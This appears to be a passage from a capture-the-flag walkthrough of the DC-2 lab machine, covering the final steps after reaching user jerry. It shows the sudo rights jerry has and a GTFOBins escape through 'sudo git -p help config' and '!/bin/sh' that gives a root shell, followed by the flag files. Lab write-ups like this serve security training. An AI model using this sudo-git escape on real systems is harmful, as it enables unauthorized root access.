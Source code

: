 In jerrys home directory we find flag4.txt:

```
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

I check `sudo -l` again on jerry and we have something! And it definitely matches the hint from flag4 that definitely isn't a hint:

```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Looking on GTFOBins shows us we can use this to get root.

<br>

## Root

I run this:

`sudo git -p help config`

Then type this to break out to root:

`!/bin/sh`

```
!/bin/sh
# whoami
root
```

And we can get our proof.txt flag now:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

And we also see final-flag.txt in the /root home directory:

```
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

```
